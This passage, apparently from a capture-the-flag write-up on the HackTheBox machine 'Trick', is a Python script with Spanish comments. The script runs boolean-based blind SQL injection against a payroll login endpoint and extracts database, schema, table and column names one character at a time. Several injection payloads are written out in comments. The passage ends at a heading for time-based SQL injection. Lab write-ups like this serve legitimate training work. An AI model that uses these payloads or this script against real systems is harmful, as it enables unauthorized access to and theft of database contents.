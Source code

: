 ```python

# Variables globales
login_url="http://preprod-payroll.trick.htb/ajax.php?action=login"
characters = string.ascii_lowercase + string.ascii_uppercase + string.punctuation

# Enumeracion del nombre de la base actualmente en uso:
# ' or (select hex(substring(database(),%d,1)) limit 1)=hex('%s')-- -
# Enumeración del resto de esquemas:
# ' or (select hex(substring((group_concat(schema_name)),%d,1)) from information_schema.schemata)=hex('%s')-- -
# Enumeracion de las tablas payroll_db
# ' or (select hex(substring((group_concat(table_name)),%d,1)) from information_schema.tables where table_schema='payroll_db')=hex('%s')-- -
# Enumeracion de las columnas
# ' or (select hex(substring((group_concat(column_name)),%d,1)) from information_schema.columns where table_schema='payroll_db' and table_name='employ  ee')=hex('%s')-- -

def makeRequest():
    
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando Fuerza bruta")
    
    time.sleep(2)
    
    username = ''
    p2 = log.progress("Username")

    for position in range(1,100):
        for character in characters:
            post_data = {
                    'username':"""' or (select hex(substring((group_concat(column_name)),%d,1)) from information_schema.columns where table_schema='payroll_db' and table_name='employee')=hex('%s')-- -""" %(position, character),
                    'password': 'test'
                }
            p1.status(post_data['username'])


            r = requests.post(url=login_url, data=post_data)

            if r.text == "1":
                username += character
                p2.status(username)
                break

if __name__ == '__main__':

    makeRequest()
```

### SQLI Time Based
